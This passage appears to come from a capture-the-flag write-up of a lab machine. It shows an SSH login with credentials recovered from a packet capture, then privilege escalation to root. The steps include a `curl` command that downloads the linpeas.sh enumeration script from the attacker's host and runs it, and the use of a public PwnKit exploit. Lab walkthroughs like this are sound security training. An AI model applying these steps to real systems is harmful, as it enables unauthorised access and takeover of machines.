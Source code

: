 ### SSH

With the credentials from the PCAP file, we can also try to login to the SSH server hosted on the victim machine. So, the command to login to the victim machine using the credentials via SSH is `ssh nathan@10.10.10.245` and when the password is prompted, just provide the same password as the one used for FTP. After logging in, we can run `id` to see who we are logged in as and their privileges. 

![First SSH Login](./screenshots/SSH%20First%20login.png)

After that, I tried to view the root directory but it seems that the user `nathan` does not have the permissions to do so. The next thing I tried is to run `sudo -l` to see what the user `nathan` can use `sudo` to run, but the user `nathan` is not allowed to run any commands using `sudo`.

The next step I took is to get linpeas.sh onto the victim machine and use it to find a way to perform privilege escalation. The command to download linpeas.sh onto the victim machine is `curl http://HTB_VPN_IP:8880/linpeas.sh -o linpeas.sh` and once it is downloaded, execute `./linpeas.sh`. 

After going through the results from `linpeas.sh`, it seems that the victim machine is vulnerable to CVE-2021-3560 and going through GitHub, I found an [exploit from ly4k](https://github.com/ly4k/PwnKit). By cloning this exploit and performing the same step of downloading onto the victim machine and executing it, I was able to gain root privileges and obtain the root.txt in the `/root` directory.
